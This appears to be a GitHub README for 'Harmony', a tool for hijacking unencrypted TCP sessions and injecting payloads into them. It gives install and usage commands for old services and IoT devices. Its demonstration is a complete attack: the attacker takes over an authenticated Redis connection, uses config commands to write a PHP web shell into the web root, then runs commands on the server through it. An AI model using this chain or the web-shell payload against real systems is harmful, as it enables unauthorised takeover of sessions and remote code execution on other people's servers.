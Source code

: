 # Harmony
Harmony is a pretty simple general-purpose TCP hijacking tool that can be used to inject custom payloads to a TCP connection via piping it to the program or by manually typing it. It does not work against encrypted connections like HTTPS and SFTP, but it's useful against old or misconfigured services, IOT devices and other server software that for some reason just don't have encryption enabled.
```
   ▌▐    ▌▐     ██     ▒▒▒    ░░       ░░  ░     ░   ░      ░   ·       ·      
   ▌▐    ▌▐    █  █    ▒  ▒   ░ ░     ░ ░         ░    ░          ·   ·        
   ▌▐▀▀▀▀▌▐   █▄▄▄▄█   ▒▒▒    ░  ░   ░  ░ ░          ░      ░        ·         
   ▌▐    ▌▐  █      █  ▒  ▒   ░   ░ ░   ░        ░        ░        ·           
   ▌▐    ▌▐ █        █ ▒   ▒  ░    ░    ░   ░ ░      ░     ░     ·             
```
## Demonstration
```
 Client                               Hacker
█▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█
█                                    █                                                            █
█$nc 192.168.1.29 6479               █$python3 harmony.py --target 192.168.1.62:192.168.1.29:6379 █
█AUTH peter myPassword1sSecure       █Sniffing for a client PSH-ACK...                            █
█OK                                  █Connection hijacked, type away!                             █
█                                    █config set dir /var/www/html                                █
█                                    █OK                                                          █
█                                    █config set dbfilename test.php                              █
█                                    █OK                                                          █
█                                    █set tcprocks "<?php system($_GET['cmd']); ?>                █
█                                    █OK                                                          █
█                                    █save                                                        █
█                                    █Killing threads and exiting...                              █
█                                    █                                                            █
█                                    █$curl 192.168.1.29/test.php?cmd=id                          █
█                                    █uid=1000(peter) gid=1000(peter)                             █
█                                    █                                                            █
█                                    █$▌                                                          █
█                                    █                                                            █
█                                    █                                                            █
█                                    █                                                            █
█                                    █                                                            █
█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█
```
## Installation
```
git clone https://github.com/SpoofIMEI/harmony
cd harmony
pip install -r requirements.txt
```

## Usage
`python3 harmony.py --target <target device IP>:<server IP>:<target server port>`

## Examples
```
python3 harmony.py --target 192.168.1.52:192.168.1.24:23
cat payload.bin |python3 harmony.py --target 192.168.1.39:192.168.1.53:21
```

## Learn what TCP hijacking is
https://medium.com/@SpoofIMEI/tcp-connection-hijacking-deep-dive-9bbe03fce9a9
